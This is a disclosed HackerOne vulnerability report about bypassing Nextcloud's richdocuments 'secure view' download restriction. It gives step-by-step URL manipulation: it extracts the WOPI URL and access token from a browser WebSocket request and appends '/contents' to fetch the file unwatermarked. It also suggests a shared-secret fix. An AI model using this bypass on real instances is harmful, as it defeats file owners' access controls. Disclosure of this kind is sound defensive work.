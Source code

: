 # Secure view trivial to bypass

## Report Details
- **Report ID**: 1724021
- **URL**: https://hackerone.com/reports/1724021
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-10-06T07:01:22.461Z
- **Disclosed**: 2023-03-30T08:14:42.255Z

## Reporter
- **Username**: rullzer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
While messing with https://hackerone.com/reports/1724016 I also noticed that it is even easier to bypass secure view.
Especially in NC 25 where you explicitly name the checkbox download a user will assume that downloading is thus not allowed or possible.

However if richdocuments is installed and properly configured. A user can still easily fetch those files.

All they have to do is open their browser and see the request that is like

```
ws://127.0.0.1:9980/cool/http%3A%2F%2F127.0.0.1%2Findex.php%2Fapps%2Frichdocuments%2Fwopi%2Ffiles%2F149_oc13vsnxh17n%3Faccess_token%3Dr7v1y7DI6gcgvzcG85fJE0TCa0IJXvnQ%26access_token_ttl%3D1665034074000/ws?WOPISrc=http%3A%2F%2F127.0.0.1%2Findex.php%2Fapps%2Frichdocuments%2Fwopi%2Ffiles%2F149_oc13vsnxh17n&compat=/ws
```

Now we extract out the internal part

```
http%3A%2F%2F127.0.0.1%2Findex.php%2Fapps%2Frichdocuments%2Fwopi%2Ffiles%2F149_oc13vsnxh17n%3Faccess_token%3Dr7v1y7DI6gcgvzcG85fJE0TCa0IJXvnQ%26access_token_ttl%3D1665034074000
```

We url decode it

```
http://127.0.0.1/index.php/apps/richdocuments/wopi/files/149_oc13vsnxh17n?access_token=r7v1y7DI6gcgvzcG85fJE0TCa0IJXvnQ&access_token_ttl=1665034074000
```

Now lets add a `/contents` to the url

```
http://127.0.0.1/index.php/apps/richdocuments/wopi/files/149_oc13vsnxh17n/conents?access_token=r7v1y7DI6gcgvzcG85fJE0TCa0IJXvnQ&access_token_ttl=1665034074000
```

And there you have it. Downloaded without watermarks.

## Impact

The checkbox as is misleads users into assuming that the file can't be downloaded.
However getting it is easy for anybody that tries.

A solution here would be to agree on some kind of public key cryptography or at the very least a shared secret between collabora and the Nextcloud instance. This could for example be passed via a header when doing calls. ensuring that only collabora can actually retrieve the file info, documents etc.

## Attachments
No attachments
